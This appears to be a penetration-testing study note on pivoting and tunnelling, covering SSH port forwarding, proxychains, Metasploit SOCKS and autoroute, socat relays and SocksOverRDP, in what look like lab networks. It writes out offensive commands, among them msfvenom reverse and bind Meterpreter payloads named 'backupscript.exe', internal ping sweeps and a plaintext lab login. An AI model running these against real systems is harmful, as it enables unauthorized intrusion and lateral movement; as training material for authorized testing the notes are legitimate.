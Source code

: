 
## #SSH local port forwarding
![[Pasted image 20230808193825.png]]
### Scan the pivot target 
```shell
nmap -sT -p22,3306 10.129.202.64
```
### Execute the local Port Forward 
```shell
ssh -L 1234:localhost:3306 Ubuntu@10.129.202.64
```
-L Forward all traffic from the first port to the second
### Confirm Port Forward 
```shell
netstat -antp | grep 1234
```
```shell
nmap -v -sV -p1234 localhost
```
### Forward multiple hosts  
```shell
ssh -L 1234:localhost:3306 8080:localhost:80 ubuntu@10.129.202.64
```

## SSH Tunnelling over #SOCKS proxy 
To connect to the target machine from the local machine you can start a SOCKS listener on the local host. 
*This is called SSH tunneling over SOCKS proxy*

Allows traffic to be route to the second target via the first machine. 
![[Pasted image 20230808194526.png]]

#### Dynamic Port forwarding with SSH 

##### Use #Proxychains to send traffic across #proxy 
```shell
ssh -D 9050 ubuntu@10.129.202.64
```
The D argument requests the SSH server to enable dynamic port forwarding. 

```shell
tail -4 /etc/proxychains.conf
```
Add `socks4 127.0.0.1 9050` to the bottom. 
##### #nmap with proxy chains 
```shell
 proxychains nmap -v -sn 172.16.5.1-200
```
##### Proxy chains with metasploit 
```shell
proxychains msfconsole
```
##### Proxychains with xfreerdp
```shell
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
## Remote/Reverse Port Forwarding 
Allows the target to talk back to you
Example payload:
```shell
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```
On the local machine 
```shell
ssh -R <InternalIPofPivotHost>:<multi handler port>:<listenerip>:<lport> <target username>@<ipAddressofTarget> -vN
```


## Meterpreter Tunnelling & Port Forwarding
### Ping Sweeping to search for more hosts 
Run these twice to allow ARP cache to build up
```shell
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```
```cmd
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```
```powershell
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

```msf
run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```
### MSF SOCKS Proxy 
```shell
use auxiliary/server/socks_proxy
```
```shell
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.
```
Check the proxy is running 
```shell-session
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====
Id  Name    Payload  Payload opts
0   Auxiliary: server/socks_proxy
```
may need to add to /etc/proxychains.conf
```shell
socks4 	127.0.0.1 9050
```
#### Creating Routes 
```shell-session
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```
 or 
 ```shell
run autoroute -s 172.16.5.0/23
```
```shell
run autoroute -p
```
#### Test Connection 
```shell
proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```
### Port Forwarding 
create a local TCP relay 
```meterpreter
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```

```shell
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```
### Reverse Port Forwarding 
```shell
portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```
Forward requests on port 1234 to listener on port 8081
##### Start a multi handler


## [Socat](https://linux.die.net/man/1/socat) Redirection with a Reverse Shell
Bidirectional relay tool that can create a pipe between 2 network channels. 
### Start #Socat Listener 
Do this on the pivot host 
```shell
socat TCP4-LISTEN:8080,fork TCP4:<local ip>
```

Listen on the local host on port 8080 and forward traffic over port 80

### Create the payload 
```shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<pivot host ip> -f exe -o backupscript.exe LPORT=8080
```
Start a multi handler on port 80 
## Socat Redirection with a Bind Shell
![[Pasted image 20230809111733.png]]
```shell
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```
Create the payload 

### Socat Bind Listener 
```shell
 socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```
Needs to be the inverse way to ensure traffic is forwarded to the target this time 

Start a multi handler 

Establish a meterpreter session 


## RDP and SOCKS Tunneling with SocksOverRDP
SSH not available?
[SOCKS over RDP](https://github.com/nccgroup/SocksOverRDP)
Uses Dynamic Virtual Channels
### Downloads 
https://github.com/nccgroup/SocksOverRDP/releases
https://www.proxifier.com/download/#win-tab

#### Load SocksOverRDP on pivot host 
```cmd
regsvr32.exe SocksOverRDP-Plugin.dll
```
Connect over RDP using mstsc.exe
Should receive prompt that SocksOverRDP is enabled.

Transfer SocksOverRDP-Server.exe and star with admin privileges. 

Check SOCKS Listener is started 
```cmd
netstat -antb | findstr 1080
```

### Transfer Proxifier over to the pivot host
Profiles > add profile
Configure to forward all packets to 127.0.0.1:1080

